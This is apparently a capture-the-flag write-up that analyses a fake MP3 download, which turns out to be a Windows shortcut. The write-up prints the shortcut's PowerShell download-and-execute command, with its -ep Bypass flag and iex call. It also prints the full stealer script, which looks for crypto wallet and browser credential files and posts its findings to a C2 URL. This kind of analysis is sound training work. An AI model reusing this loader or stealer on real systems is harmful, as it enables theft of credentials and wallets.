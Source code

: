 We are asked to investigate a yt to mp3 website. 
+ Firstly we are asked to use the site and download our files. We get two outputs. One named `song.mp3` the other `somg.mp3`. We examine what type of file both of these are:
  ```
  root@ip-10-10-189-48:~# file song.mp3
  song.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
  ```
  ```
  root@ip-10-10-189-48:~# file somg.mp3
  somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
  ```
  We can see that `somg.mp3` is not an mp3 but a `.lnk` file.
  
+ We look at further info about `somg.mp3` by using `exiftool`.
  ```
  root@ip-10-10-189-48:~# exiftool somg.mp3
  ExifTool Version Number         : 11.88
  File Name                       : somg.mp3
  Directory                       : .
  File Size                       : 2.1 kB
  File Modification Date/Time     : 2024:10:30 14:32:52+00:00
  File Access Date/Time           : 2024:12:03 13:08:04+00:00
  File Inode Change Date/Time     : 2024:12:03 12:58:39+00:00
  File Permissions                : rw-r--r--
  File Type                       : LNK
  File Type Extension             : lnk
  MIME Type                       : application/octet-stream
  Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
  File Attributes                 : Archive
  Create Date                     : 2018:09:15 08:14:14+01:00
  Access Date                     : 2018:09:15 08:14:14+01:00
  Modify Date                     : 2018:09:15 08:14:14+01:00
  Target File Size                : 448000
  Icon Index                      : (none)
  Run Window                      : Normal
  Hot Key                         : (none)
  Target File DOS Name            : powershell.exe
  Drive Type                      : Fixed Disk
  Volume Label                    : 
  Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
  Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
  Machine ID                      : win-base-2019
  ```
  Here we can see in Command Line Arguments it has `-ep Bypass -nop -c` which I learned disables PowerShell's usual restrictions. `.DownloadFile` downloads a file from `https://raw.githubusercontent.com/MM-   WarevilleTHM/IS/refs/heads/main/IS.ps1` and saves it to `C:\ProgramData\s.ps1`. After it gets downloaded, the powershell script which is in the file that was downloaded gets executed using `iex`.

+ Looking at the powershell script by going to the website, we can see it extracts some very sensitive info like the user's crypto wallets. Which essentially means that once the user opens `somg.mp3` it downloads and runs the powershell script and steals the user's crypto wallets.

  ```
  function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
  }
  
  # Call the function to print the ASCII art
  Print-AsciiArt
  
  # Path for the info file
  $infoFilePath = "stolen_info.txt"
  
  # Function to search for wallet files
  function Search-ForWallets {
      $walletPaths = @(
          "$env:USERPROFILE\.bitcoin\wallet.dat",
          "$env:USERPROFILE\.ethereum\keystore\*",
          "$env:USERPROFILE\.monero\wallet",
          "$env:USERPROFILE\.dogecoin\wallet.dat"
      )
      Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
      foreach ($path in $walletPaths) {
          if (Test-Path $path) {
              Add-Content -Path $infoFilePath -Value "Found wallet: $path"
          }
      }
  }
  
  # Function to search for browser credential files (SQLite databases)
  function Search-ForBrowserCredentials {
      $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
      $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"
  
      Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
      if (Test-Path $chromePath) {
          Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
      }
      if (Test-Path $firefoxPath) {
          Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
      }
  }
  
  # Function to send the stolen info to a C2 server
  function Send-InfoToC2Server {
      $c2Url = "http://papash3ll.thm/data"
      $data = Get-Content -Path $infoFilePath -Raw
  
      # Using Invoke-WebRequest to send data to the C2 server
      Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
  }
  
  # Main execution flow
  Search-ForWallets
  Search-ForBrowserCredentials
  Send-InfoToC2Server
  ```
  We can see that the C2 server to which the code sends the stolen data to is `http://papash3ll.thm/data`.
+ Now we are asked to investigate further. We searched up the code on github, saw that a issue was raised by `M.M` i.e. `Mayor Malware` after that we look at the commit history of `CryptoWallet-Search` and thus we get all our answers.

### What I Learned
+ One must always be on the lookout for malicious sites. AS once the damage is done there is no going back.
+ If we do use such sites for any reason, we must investigate the files that we downloaded.

  
